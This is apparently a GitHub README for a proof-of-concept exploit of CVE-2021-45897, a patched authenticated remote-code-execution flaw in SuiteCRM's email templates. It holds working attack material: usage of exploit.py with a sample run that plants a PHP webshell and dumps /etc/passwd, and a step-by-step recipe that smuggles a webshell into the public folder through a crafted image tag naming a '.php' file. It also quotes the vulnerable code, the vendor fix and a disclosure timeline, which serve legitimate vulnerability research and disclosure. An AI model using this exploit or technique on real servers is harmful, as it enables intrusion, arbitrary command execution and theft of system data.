 # CVE-2021-45897

PoC for [CVE-2021-45897](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45897) aka SCRMBT-#180 - RCE via Email-Templates (Authenticated only) in SuiteCRM <= 8.0.1

This vulnerability was reported to SalesAgility in fixed in SuiteCRM 7.12.3 and SuiteCRM Core 8.0.2. If you are using older versions of SuiteCRM, I highly advise you to update.

## Usage

**Installation**

1. Make sure to have a recent version of `python3` and `pip` installed.
2. Clone the repo: `git clone https://github.com/manuelz120/CVE-2021-45897.git`
3. Install the required libraries `pip3 install -r "requirements.txt"`
4. Enjoy :)

**Available options:**

```
(.venv) ➜  CVE-2021-45897 git:(main) ✗ ./exploit.py --help
Usage: exploit.py [OPTIONS]

Options:
  -h, --host TEXT        Root of SuiteCRM installation. Defaults to
                         http://localhost
  -u, --username TEXT    Username
  -p, --password TEXT    password
  -P, --payload TEXT     Shell command to be executed on target system
  -d, --is_core BOOLEAN  SuiteCRM Core (>= 8.0.0). Defaults to False
  --help                 Show this message and exit.

  https://github.com/manuelz120/CVE-2021-45897
```

**Example usage:**

```
(.venv) ➜  CVE-2021-45897 git:(main) ✗ ./exploit.py -u user -p <redacted> --payload "cat /etc/passwd"
INFO:CVE-2021-45897:Login did work - Planting webshell as Note
INFO:CVE-2021-45897:Note with paylaod located @ 6da23afd-06a0-c25a-21bd-61f8364ae722
INFO:CVE-2021-45897:Successfully planted payload at http://localhost/public/6da23afd-06a0-c25a-21bd-61f8364ae722.php
INFO:CVE-2021-45897:Verifying web shell by executing command: 'cat /etc/passwd'
INFO:CVE-2021-45897:------ Starting command output ------
INFO:CVE-2021-45897:root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
INFO:CVE-2021-45897:------  Ending command output  ------
INFO:CVE-2021-45897:Enjoy your shell :)
```

## Writeup

I recently discovered an interesting RCE attack vector in the PHP based [SuiteCRM Software](https://github.com/salesagility/SuiteCRM-Core). The vulnerability allows an authenticated attacker with access to the `EmailTemplates` module to upload malicous PHP files, which can be used to gain remote code execution.

From my point of view, the overall file upload handling in SuiteCRM looks quite secure. Although there is a lot of custom code, developers paid close attention to either remove any file extensions (happening for most file types), or validate the extensions and sanitize the content in case it is an image. There even exists a plugin interface to load third party AV scanners and let them process any uploads.

However, I randomly stumbled upon one interesting little feature hidden in `public/legacy/modules/EmailTemplates/EmailTemplate.php`:

```php
private function repairEntryPointImages()
{
    global $sugar_config;

    // repair the images url at entry points, change to a public direct link for remote email clients..


    $html = from_html($this->body_html);
    $siteUrl = $sugar_config['site_url'];
    $regex = '#<img[^>]*[\s]+src=[\s]*["\'](' . preg_quote($siteUrl) . '\/index\.php\?entryPoint=download&type=Notes&id=([a-f0-9]{8}\-[a-f0-9]{4}\-[a-f0-9]{4}\-[a-f0-9]{4}\-[a-f0-9]{12})&filename=.+?)["\']#si';

    if (preg_match($regex, $html, $match)) {
        $splits = explode('.', $match[1]);
        $fileExtension = end($splits);
        $this->makePublicImage($match[2], $fileExtension);
        $newSrc = $sugar_config['site_url'] . '/public/' . $match[2] . '.' . $fileExtension;
        $this->body_html = to_html(str_replace($match[1], $newSrc, $html));
        $this->imageLinkReplaced = true;
        $this->repairEntryPointImages();
    }
}

private function makePublicImage($id, $ext = 'jpg')
{
    $toFile = 'public/' . $id . '.' . $ext;
    if (file_exists($toFile)) {
        return;
    }
    $fromFile = 'upload://' . $id;
    if (!file_exists($fromFile)) {
        throw new Exception('file not found');
    }
    if (!file_exists('public')) {
        sugar_mkdir('public', 0777);
    }
    $fdata = file_get_contents($fromFile);
    if (!file_put_contents($toFile, $fdata)) {
        throw new Exception('file write error');
    }
}
```

SuiteCRM allows users to create email templates. The templates can also contain attachments, which are stored in a separate module (the `Notes` module). Users can attach arbitrary files to email templates. The content of the file is not sanitized in any way. However, it is stored without an extension, so even if it contains potentially malicious PHP code, it wouldn't be executed by the webserver. Authenticated users are also able to download these attachments using a link following the format `/index.php?entryPoint=download&type=Notes&id=<note-id>`.

The `repairEntryPointImages` function is triggered whenever a email template is saved or accessed. If we take a look at the code, we can see that it parses the markup (`body_html`) of the email template and looks for HTML `img` tags with a special `src` attribute. The regular expression basically resembles the format of the internal attachment download link. However, these links only work for users which are authenticated in SuiteCRM, which is most likely not the case for the recipient of the email. Therefore, SuiteCRM automatically creates a copy of the attachment in the `public` folder of the webserver and replaces the internal download link with the public version. To make sure the Email-Client properly displays the images, it also adds a file extension. However, the extension of the target file in the public folder is directly taken from the `filename` query parameter of the image `src` and not validated (note that the `filename` isn't triggering any other logic and can be freely chosen).

Now we have everything together to craft an exploit that uploads a PHP webshell in the `public` folder:

1. Create a new Email-Attachment / Record in the `Notes` module by uploading a PHP webshell. Remember the id of the `Note`
2. SuiteCRM will store the webshell file without extension in the upload folder
3. Verify that you can download the PHP file by accessing `/index.php?entryPoint=download&type=Notes&id=<note_id>`
4. Create a new email template and add a image tag that matches the regex in `repairEntryPointImages`, but uses a `.php` for the `filename` query parameter (e.g. `<img src="<host>/index.php?entryPoint=download&type=Notes&id=<note_id>&filename=pwned.php" />`).
5. Save / reload the email template - SuiteCRM will execute the `repairEntryPointImages` function and copy our webshell with a `.php` extension to the `public` folder
6. Enjoy your shell at `http://<<host>>/public/<<note_id>>.php`

## Implemented fix

Shortly after my report, new SuiteCRM versions (`7.12.3` and `8.0.2`) were released, containing the following fix:

![patch.png](./patch.png)

https://github.com/salesagility/SuiteCRM-Core/commit/5d699396379d7af8697ec985ebc425836202ed43#diff-fb3b09c19812fa070cc86927149c52ef4bffc3057a82249a12f4a82bc0dd576dR922-R926

This ensure that only valid image file extensions are used in `repairEntryPointImages` and prevents the creation of files with non-whitelisted extensions like `.php`.

## Timeline

- 21/12/2021: Vulnerability discovered and reported to SuiteCRM
- 22/12/2021: Vulnerability confirmed by vendor (SalesAgility)
- 27/01/2022: Release of fixed versions ([SuiteCRM 7.12.3](https://docs.suitecrm.com/admin/releases/7.12.x/) and [SuiteCRM Core 8.0.2](https://docs.suitecrm.com/8.x/admin/releases/8.0/))
